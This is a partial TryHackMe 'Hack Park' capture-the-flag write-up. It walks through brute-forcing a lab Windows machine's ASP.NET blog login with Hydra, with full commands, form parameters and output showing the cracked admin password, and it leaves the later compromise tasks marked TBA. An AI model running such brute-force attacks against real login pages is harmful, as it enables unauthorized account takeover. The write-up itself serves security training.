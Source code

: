 # TryHackMe: Hack Park

[Hack Park](https://tryhackme.com/room/hackpark) is a TryHackMe CTF. 

> Bruteforce a websites login with Hydra, identify and use a public exploit then escalate your privileges on this Windows machine!

	
## [Task 1] Deploy the vulnerable Windows machine

On browsing to the home page, we see a clown.

I ran the image through an image search engine, [TinyEye](https://tinyeye.com).

And eventually found the clown's name on an article from [Slate](https://slate.com/culture/2016/10/evil-clowns-have-been-sighted-all-over-america-since-1981.html).

## [Task 2] Using Hydra to brute-force a login

The login area is accessible from the sidebar. 

`http://10.10.136.50/Account/login.aspx?ReturnURL=/admin/`

Here there is `POST` form taking input params:

```
ctl00$MainContent$LoginUser$UserName: USERNAME
ctl00$MainContent$LoginUser$Password: PASSWORD
ctl00$MainContent$LoginUser$LoginButton: Log+in
```

We can attack this form with Hydra. 

```shell
hydra -l username -P passwords.txt IP.ADD.RE.SS http-port-form
```

Prior to initiating an attack, I found user `Admin` from a post on the blog: `http://10.10.136.50/author/Admin`. Though, notably, there is another user on the blog that had left a comment on `Admin`'s post, `Visitor1`. First we'll run hydra against `Admin`, however.

```console
kali@kali:~$ hydra -l Admin -P /usr/share/wordlists/fasttrack.txt 10.10.136.50 http-post-form "/Account/login.aspx:ctl00\$MainContent\$LoginUser\$UserName=^USER^&ctl00\$MainContent\$LoginUser\$Password=^PASS^&ctl00\$MainContent\$LoginUser\$LoginButton=Log+in:S=302" -v -I

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-19 17:51:10
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking http-post-form://10.10.136.50:80/Account/login.aspx:ctl00$MainContent$LoginUser$UserName=^USER^&ctl00$MainContent$LoginUser$Password=^PASS^&ctl00$MainContent$LoginUser$LoginButton=Log+in:S=302
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[80][http-post-form] host: 10.10.136.50   login: Admin   password: secuirty3
[STATUS] attack finished for 10.10.136.50 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-19 17:51:13
```


```shell
hydra -f -l admin -P /data/src/wordlists/rockyou.txt 10.10.136.50 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=nbWrkCqQ%2B1Hn%2Fgt8OwrXb%2B%2BFMX0bVJv9xbWiO3oASE6l0%2BDl73MXEP2ao2pwbsK6Jr4MzOI9cbeVU7o5WL%2BFKDPWl1RXjt5kLGmi%2F1d9biM%2Fi3jThbmDihH1A7JWIVyWFQ3lIXAOLpqdlBKHFv6dZd8XzdjcN%2FrgmGzhog7Sf0Ml3kvolr3pzU9VlhHtBqJZNJ%2FkQVxtOT%2Bc%2FxMceQklmwd%2FeiI1sb4%2B4Mv4ol44Uy4Mf9Vaw%2B6OUiBt1BZn8PQoOcFS6ul97keSrPf2jTIqUqeC1YQwwE0FU7Syl8jfviP6nsNb4aSX6ASTDZlajXjkTtFum%2Bpk3uz4%2FtNoraPjA%2FTn5DuX56Sbr4I9oGPQznIuhjc0&__EVENTVALIDATION=pKMn8W0WIp7BuOhOq9YO49%2BqkAVDl1TJjXzk%2BDzHnOyizFWE7BYkR%2Frn983R5edqA0yBYDn%2Fi7BIxrq%2FJlxoiMHPZ2UN1iFWs83YOrgnVHxJtr4R811S4kAhpj4kb6aqZ1r9F5iqUqIoj3gfQjf%2BtO7mRTdLARthnldxPEA73U3caeMM&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

## [Task 3] Compromise the machine

_TBA_

## [Task 4] Windows Privilege Escalation

_TBA_

## [Task 5] Privilege Escalation Without Metasploit 

_TBA_